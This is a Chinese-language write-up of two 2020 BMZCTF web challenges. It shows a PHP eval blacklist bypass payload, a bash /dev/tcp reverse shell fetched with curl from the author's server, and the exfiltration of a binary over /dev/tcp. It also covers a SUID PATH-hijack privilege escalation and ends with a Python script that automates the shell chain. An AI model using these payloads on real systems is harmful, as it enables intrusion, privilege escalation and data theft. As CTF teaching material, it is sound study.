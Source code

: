 ```yaml
---
title: 2020BMZctf-Writeup
comments: false
hide: false
date: 2020-12-28 20:47:11
urlname: bmzctf2020
updated:
permalink:
tags:
  - 命令执行
  - 提权
  - 反弹shell
categories:
  - Write-Up
---
```




## 2020BMZCTF Write-up

随缘做了两道web

昵称：Err0r

<!-- more -->

### WEB

#### WEB_ezeval

源码

```php
<?php

highlight_file(__FILE__);
$cmd=$_POST['cmd'];
$cmd=htmlspecialchars($cmd);
$black_list=array('php','echo','`','preg','server','chr','decode','html','md5','post','get','file','session','ascii','eval','replace','assert','exec','cookie','$','include','var','print','scan','decode','system','func','ini_','passthru','pcntl','open','link','log','current','local','source','require','contents');
$cmd = str_ireplace($black_list,"BMZCTF",$cmd);
eval($cmd);

?>
```

ban了一堆函数，但肯定还有能用的，`<、>、"`因为`htmlspecialchars`也是不能用的

往无参数RCE方向走发现不太可行，最后利用`base_convert`构造语句

把`system`由base36转为base10，利用`base_convert(2146934604002,10,36)`发现可以执行系统命令，于是想读取根目录flag发现`/`传不进去，于是继续`base_convert(16191,10,36)`，利用`chr`函数转换`/`，最终读取flag

payload：`cmd=base_convert(2146934604002,10,36)(base_convert(16191,10,36)(47).flag);`

![image-20201228205633315](bmzctf2020/image-20201228205633315.png)





---

#### WEB_penetration

主要考察反弹shell，提权

打开得源码

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['ip'])){
    $ip = $_GET['ip'];
    $_=array('b','d','e','-','q','f','g','i','p','j','+','k','m','n','\<','\>','o','w','x','\~','\:','\^','\@','\&','\'','\%','\"','\*','\(','\)','\!','\=','\.','\[','\]','\}','\{','\_');
    $blacklist = array_merge($_);
    foreach ($blacklist as $blacklisted) {
        if (strlen($ip) <= 18){
            if (preg_match ('/' . $blacklisted . '/im', $ip)) {
                die('nonono');
            }else{
            exec($ip);
            }
            
        }
        else{
        die("long");
        }
    }
    
}
?>
```

命令执行，`ip`经过blacklist过滤后exec执行，但是测着发现foreach会每次取一位然后来执行，执行多次，也就是说只要不含`b`就可以执行，这里可以直接执行，但限制了18个字符的长度限制发挥，尝试反弹shell，明显反弹shell第一个单词`bash`会被过滤，另寻方法。

首先就执行`find / -name fl*>1`，执行后输出结果到文件1，结果发现根本就没有flag！

测试echo可写，于是准备写个一句话木马，结果发现写的.php不执行，应该是写了规则。

于是准备写个`.htaccess`，结果一写直接500内部服务报错。

老实弹shell吧。

想直接写`bash -i >& /dev/tcp/[ip]/[port] 0>&1`，结果发现`&`写不进去，测试发现靶机可连外网，于是在自己服务器上写个名为1的文件，内容为`bash -i >& /dev/tcp/[ip]/[port] 0>&1`

再在靶机写个文件`1d`，内容为`curl ip/1>1`

运行`sh 1d`，发现不行，估计没有执行权限，赋予，`chmod 777 1d`，靶机运行了curl命令，访问我的服务器下载了文件1，这样就成功写了反弹shell的命令

在我的服务器监听端口，`nc -lvp [port]`

再给1赋予执行权限`chmod 777 1`，需要用bash执行，可是不可以含有`b`，于是利用`?`和`[a-c]`，即执行`/?in/[a-c]ash 1`

我的服务器成功getshell

![image-20201228211635023](bmzctf2020/image-20201228211635023.png)

根目录下没有发现flag，也没有readflag，找也找不到flag，有个`start.sh`，读取一下看看

```sh
www-data@2a4c1fe2f663:/var/www/html$ cat /start.sh
cat /start.sh
#!/bin/bash 

chmod 755 index.php
gcc /root/demo.c -o love
mv love /usr/bin/love
chmod u+s /usr/bin/love

rm /var/log/apache2/access.log
rm /var/log/apache2/error.log
```

关键在这个`/user/bin/love`

读出来看看，服务器开监听端口，靶机shell执行`cat /usr/bin/love > /dev/tcp/[ip]/[port]`

![image-20201228212753119](bmzctf2020/image-20201228212753119.png)

成功拿到文件，拷下来反编译一下(web狗汗颜)

![image-20201228212718787](bmzctf2020/image-20201228212718787.png)

结果就是系统执行个ps命令

结合find发现了的一点东西

![image-20201228211807363](bmzctf2020/image-20201228211807363.png)

`/root`目录没有权限，也许可能考点就是提权了

这是一个具有SUID权限的程序，在tmp目录写个内容为`/bin/bash`的ps文件，添加进环境变量，这样执行程序调用ps命令会优先从这里执行，而这里是我们伪造的ps命令，然后相当于以高级权限执行了`/bin/bash`。

```bash
echo "/bin/bash" > /tmp/ps
chmod 777 ps
echo $PATH
export PATH=.:$PATH
/usr/bin/love
```

成功提权，直接`cat /root/flag`

![image-20201228213633573](bmzctf2020/image-20201228213633573.png)



理解了师傅之前说的，提权，才是开始。

是的，权限真香，这才刚刚开始

后面再研究吧

附上一键弹shell脚本：

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2020/12/26 20:36
@Auth ： gyy
@Blog：http://err0r.top

"""
import requests
baseurl = "http://www.bmzclub.cn:21257/"

def req(url):
    res = requests.get(url).content.decode('utf8')
    return res

def execit(payload):
    url = baseurl+"?ip="+payload
    res = req(url)
    if "long" not in res:
        return 1
    else:
        return 0

def check(url):
    res = req(url)
    print(res)

if __name__ == "__main__":
    payload1 = "curl [ip]/[filename]>1"
    i = 0
    flag = 1
    while i < len(payload1):
        if flag:
            payload = "echo '" + payload1[i:i + 5] + "\c'>1d"
            execit(payload)
            i += 5
            flag -=1
        payload = "echo '"+payload1[i:i+5]+"\c'>>1d"
        execit(payload)
        i +=5
    check(baseurl+"1d")
    # bash -i >& /dev/tcp/[ip]/[port] 0>&1
    execit("chmod 777 1d")
    execit("sh 1d")
    execit("chmod 777 1")
    execit("/?in/[a-c]ash 1")
```





---

### 总结

很有收获，不枉这两题，尤其的第二题，非常有价值。

当然不能小看第一题，别看WP短短几行，背后是无数次的尝试与探索，第二题更是如此。

2020年最后一份WP，还有很长路要走，加油吧。